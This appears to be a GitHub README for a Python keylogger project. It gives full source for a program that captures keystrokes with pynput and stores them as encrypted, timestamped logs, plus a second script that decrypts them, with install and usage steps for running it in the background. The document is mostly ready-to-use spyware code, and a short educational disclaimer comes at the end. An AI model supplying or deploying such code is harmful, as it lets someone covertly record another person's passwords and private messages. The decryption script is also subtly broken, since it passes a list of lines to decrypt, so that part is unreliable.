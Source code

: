 # Keylogger with encryption
## Description
This project consist of two programs: one for logging key presses and another for decrypting the logged data. The programs are written in Python and use the `pynput` library to capture key presses and the `cryptography` library for encrypting and decrypting data.
# Code
## Keylogger Program (keylogger.py)
``` python 
from pynput import keyboard
import datetime
from cryptography.fernet import Fernet

# Generate encryption key
key = Fernet.generate_key()
cipher_suite = Fernet(key)

# Save key to file 
with open('key.key', 'wb') as f:
    f.write(key)

buffer = []

def on_press(key):
    global buffer 
    if key == keyboard.Key.space:
        # Create a log with the current time and buffer content, then encrypt it
        log = f'[{datetime.datetime.now().strftime('%Y-%m-%d, %H:%M:%S')}] {"".join(buffer)}\n'
        encrypted_logs = cipher_suite.encrypt(log.encode())
        with open('klogs.txt', 'ab') as f: # Opening the file in append binary mode
            f.write(encrypted_logs + b'\n')
        buffer = []
    else:
        try:
            if key.char.isalpha():  # Check if the pressed key is a letter
                buffer.append(key.char)
            else:
                buffer.append(str(key).replace("'", ""))
        except AttributeError:  # Ignore non-character keys like Shift, Ctrl.
           pass 
# Checking if the pressed key is esc if so stop listening key presses
def on_release(key):
    if key == keyboard.Key.esc:
        return False 
        
with keyboard.Listener(on_press=on_press, on_release=on_release) as Listener:
    Listener.join() # Start listening to key presses
```
### Explanation
1. `Imports`: 
Import necessary modules to keyboard events, handling dates and encrypted data.
2. `Encryption Key`:
Generate and save an encryption key for secure data storage.
3. `Buffer`:
A list to collect characters typed by the user.
4. `on_press Function`:
Handles key press events, appends characters to a buffer and writes encrypted logs to a file when the space bar is pressed.
5. `on_release Function`:
Stops listening for a key presses when the Esc key is pressed.
6.  `Listener`:
Initialazes and starts the keyboard listener to call the defined functions on key events.
## Log decryption Program (decryption.py)
``` python
from cryptography.fernet import Fernet

# Load encryption key
with open('key.key', 'rb') as f:
    key = f.read()
    
cipher_suite = Fernet(key)

# Decrypt logs
with open('klogs.txt', 'rb') as f:
    encrypted_logs = f.readlines()
    
decrypted_logs = []
decrypted_logs = cipher_suite.decrypt(encrypted_logs)

# Save decrypted logs to a file
with open('decrypted_logs.txt','w') as f:
   f.write(decrypted_logs.decode())
```
## Requirements
- Python 3.x
- Libraries:
 `pynput`, `cryptography`
## Instalation
1. Clone the repository:
   ``` bash
   git clone https://github.com/hackbutnotme/Keylogger
   ```
2. Install the required libraries:
   ``` bash
   pip install pynput
   pip install cryptography
   ```
## Usage
1. Run the keylogger.py:
   ``` bash
   python keylogger.py
   
   # The program will run in the background, logging key presses.
    ```
2. After logging key presses and saving them to `klogs.txt`, run the fecryptor program:
    ``` bash
    python decryption.py
    # The decrypted logs will be saved to `decrytped_logs.txt`.
    ```
## WARNING
This project is intended for educational purposes only. Using such tools to monitor the activities of others without their consent is illegal and unethical. Please use this project responsibly.
